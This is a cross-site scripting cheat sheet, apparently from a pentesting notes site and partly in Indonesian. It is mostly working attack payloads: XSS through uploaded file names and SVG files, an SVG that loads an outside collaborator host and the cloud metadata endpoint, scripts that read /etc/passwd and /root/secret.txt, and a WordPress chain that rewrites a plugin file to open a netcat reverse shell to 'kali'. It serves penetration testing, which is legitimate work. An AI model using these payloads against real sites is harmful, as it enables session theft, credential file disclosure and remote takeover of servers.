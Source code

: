 # Cross Site Scripting

## Pengantar

<table><thead><tr><th width="181">Name</th><th></th></tr></thead><tbody><tr><td>Description</td><td></td></tr><tr><td>Impact</td><td><ul><li>an attacker can steal user cookie</li><li>an attacker can change display of the website</li><li>an attacker can redirect user into malicious page</li></ul></td></tr><tr><td>Recommendation</td><td><ul><li>implement input validation from common metacharacter that xss used like &#x3C; > ( ) " ' [ ] ! @ # $</li><li>use HTML Encoding </li></ul></td></tr><tr><td>Reference</td><td><ul><li><a href="https://owasp.org/www-community/attacks/xss/">https://owasp.org/www-community/attacks/xss/</a></li><li><a href="https://brightsec.com/blog/xss/">https://brightsec.com/blog/xss/</a></li></ul></td></tr></tbody></table>

{% hint style="info" %}
**NOTE** : XSS is not just about showing alert (\<script>alert()\</script>), when you found  vulnerability you can try to escalate the risk.
{% endhint %}

## XSS Attacks&#x20;

### XSS Via File name&#x20;

when you found file upload, please try to upload file and capture via burpsuite to rename file

```html
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
');\"><img src=x onerror=alert(1337)>
```

### XSS Via SVG File

```svg
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
    <g>
        <foreignObject width="800" height="500">
            <body xmlns="http://www.w3.org/1999/xhtml">
                <iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
                <iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
            </body>
        </foreignObject>
    </g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
  <script type="text/javascript">
    // <![CDATA[
      alert(1);
   // ]]>
  </script>
</svg>
```

## Chaining XSS

### Reading Local File

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```javascript
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.open("GET","file:///etc/passwd");
    xhzeem.send();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
</script>
```

```html
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
```

```
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

### XSS to RCE

```
<script>
  require('child_process').exec('calc');
</script>
```

### Wordpress XSS to RCE

```javascript
//https://gist.github.com/LukaSikic/48f30805b10e2a4dfd6858ebdb304be9

u = "/wp-admin/plugin-editor.php"
p = "file=akismet%2Findex.php&plugin=akismet%2Fakismet.php"
var x = new XMLHttpRequest();
var r=0
x.open('GET',u+"?"+ p,1);
x.send(null);

x.onreadystatechange = function() {
    if (x.readyState === 4 && r != 1) {
	n = /ate.+".+\s+.+ue="(.*)" \/></.exec(x.responseText)[1]
	x.open("POST", u, 1)
	x.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	x.send(p + "&nonce="  + n + "&newcontent=%3C%3Fphp%20exec%28%27nc%20kali%204444%20-e%20%2Fbin%2Fbash%27%29%3B%20%3F%3E&action=edit-theme-plugin-file")
	r = 1
    } else {
	fetch('/wp-content/plugins/akismet/index.php')
    }
}
```
